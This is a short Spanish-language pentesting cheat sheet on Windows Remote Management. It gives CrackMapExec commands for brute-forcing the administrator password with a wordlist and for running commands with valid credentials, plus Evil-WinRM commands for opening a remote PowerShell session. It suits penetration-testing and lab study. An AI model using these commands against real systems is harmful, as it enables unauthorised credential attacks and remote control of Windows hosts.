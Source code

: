 # WINRM 

Tags: #WinRM #Windows #Crackmapexec

* 5985 -> HTTP
* 5986 -> HTTPS

Windows Remote Management (WinRM) es utilizado de las siguientes maneras:
* Acceso remoto e interactúa con los hosts en una red local de Windows.
* Acceso remoto y ejecuta comandos en sistemas Windows 
* Manejo y configuración de sistemas Windows remotamente 

## Crackmapexec  con WinRM

```bash
❯ apt-get -y install crackmapexec     # Para instalar crackmapexec. CrackMapExec currently supports remote authentication using MSSQL, SMB, SSH, and WinRM.
```

```bash  
# Debe de estar abierto el puerto 5985 para poder usar el WinRM

# Haremos brute force para saber la passwd del usuario administrador
❯ crackmapexec winrm ❮IP❯ -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 

❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯ -x "whoami"   # Teniendo credenciales validas, podemos usar Crackmapexec para ejecutar un comando
	
	# u = Usuario
	# p = Password
	# x = Ejecutar un comando (whoami, systeminfo)
```

## Validar credenciales para conexión con Evil-WinRM

```bash 
❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯    # Podemos utilizar el puerto de winrm para entrar con una consola en 'Powershell', pero antes debemos saber si el usuario esta en el grupo 'Remote management users', el cual al ejecutar el comando debe poner un (Pwn3d!).

# Podemos usar evil-winrm para conectarnos, si tiene el puerto 5985 abierto
```

## Evil-WinRM

```bash
❯ gem install evil-winrm          # Instalar Evil-winrm
❯ gem uninstall evil-winrm        # Desinstalar Evil-winrm
❯ gem cleanup evil-winrm          # Si nos marca un error, debemos de desinstalarlo y hacerle el clean, para despues instalarlo de nuevo
```

```bash
❯ evil-winrm.rb -u administrator -p <'passwd'> -i ❮IP❯   # Conectarnos al servicio de administracion remota de Windows
❯ evil-winrm -i ❮IP❯ -u ❮'user'❯ -p ❮'password'❯             
```

